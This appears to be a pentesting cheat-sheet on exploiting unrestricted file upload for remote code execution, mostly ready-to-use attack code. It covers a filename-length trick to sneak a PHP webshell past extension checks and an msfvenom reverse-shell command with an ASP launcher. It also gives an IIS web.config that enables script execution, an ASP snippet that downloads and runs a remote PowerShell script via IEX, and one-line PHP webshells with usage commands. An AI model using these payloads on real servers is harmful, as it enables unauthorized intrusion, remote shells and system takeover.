 ```yaml
---
title: Unrestricted File Upload
category: Web
order: 6
---
```


Different ways to upload files and get RCE.

# Identifies restrictions

## Extension

Shortening the size (falafel.htb):

Linux maximum 255 chars

```
touch $(python3 -c "print('A'*251+'.png')")
wget 'http://10.10.14.20:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.png'
```

Search the correct offset and upload again:

```
echo '<?php system($_GET["cmd"]);?>' > $(python3 -c 'print("A"*(236-4)+".php.png")')
wget 'http://10.10.14.20:8000/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA.php.png'
```

## Size

## Name

## Magic Number

## Content

# ASP

First we need to generate the reverse shell.

```
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f exe -o rev.exe
```

Finally upload the `rev.asp` and `rev.exe` files to get a connection shell back.

* Execute a binary

```
<%
Dim oS
On Error Resume Next
Set oS = Server.CreateObject("WSCRIPT.SHELL")
Call oS.Run("win.com cmd.exe /c c:\Inetpub\rev.exe",0,True)
%>
```

* Read internal files

```
<%
string path = @"C:\\Windows\\win.ini"; 
string txt = System.IO.File.ReadAllText(path); 
Response.Write(txt); 
%>
```

# .config RCE (IIS)

Uploading a `web.config` file to execute asp commands.

```
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />         
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>

<%
Response.write(1+1)
%>
```

If this works we can execute a reverse shell.

```
<%
Set objShell = CreateObject("WScript.Shell")
strCommand = "cmd /c powershell.exe -c IEX (New-Object Net.Webclient).downloadstring('http://<ip-addr>/shell.ps1')"
Set objShellExec = objShell.Exec(strCommand)
strOutput = objShellExec.StdOut.ReadAll()
WScript.StdOut.Write(strOutput)
WScript.Echo(strOutput)
%>
```
# PHP

The are some typicall PHP webshells, but some are detected by AV. Here are some usefull ones.

* https://github.com/bayufedra/Tiny-PHP-Webshell

```
<?=`$_GET[0]`?>

Usage :
  http://target.com/path/to/shell.php?0=command
```

```
<?=`$_POST[0]`?>

Usage :
  curl -X POST http://target.com/path/to/shell.php -d "0=command"
```
